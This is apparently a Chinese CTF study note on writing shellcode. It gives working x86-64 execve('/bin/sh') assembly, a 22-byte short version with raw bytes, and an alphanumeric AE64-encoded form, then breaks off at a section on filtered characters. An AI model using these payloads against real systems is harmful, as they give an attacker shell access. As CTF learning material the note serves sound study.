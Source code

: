 # shellcode

其实想要做的是代码注入总结篇

## 基础shellcode的书写

要做shellcode，认为有下面几点要解决：

- 一般情况下需要相应内存块至少有可执行权限，如果没有的话看看有没有`mprotect`函数，可以进行一个权限申请
- 需要知道写入地址，或者让寄存器指向写入的代码块

### 直接pwntools生成

```assembly
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

这里将`/bin/sh`直接压入栈中，然后利用rsp的偏移获取地址，直接生成`shellcraft.sh()`生成即可，不做过多介绍

### 限制长度的shellcode（x86)

```assembly
xor rsi,rsi
push rsi
mov rdi, 0x68732f2f6e69622f
push rdi
push rsp
pop	 rdi
mov  al, 59
cdq
syscall
```

总长度为22（0x16)字节，实现的是`execve('/bin/sh','sh',0)`，构造出来的条件是这样的：

- rax:0x3b
- rdi:’/bin/sh’
- rsi:’sh’
- rdx:NULL

但是注意，需要eax的高二位为0(一般没什么问题)

bytes形式：

```assembly
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

可见字符形式(AE64生成)：

*关于ae64,直接看[这里](https://github.com/veritas501/ae64)就可以*

```assembly
WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjrTYfi9h10t830T840T880T890t8A0T8B0T8CRAPZ0t80ZjBTYfi9O60t810T82RAPZ0T80ZH1vVHwzbinzzshWToxnQZP
```

**当然，出题人可能会通过一定的构造来要求更小字节的shellcode，主要就是对栈的理解（其实就是考察汇编功底）**

> 例如tgctf2025的shellcode：
>
> 



### 字符限制shellcode

一般会出现过滤

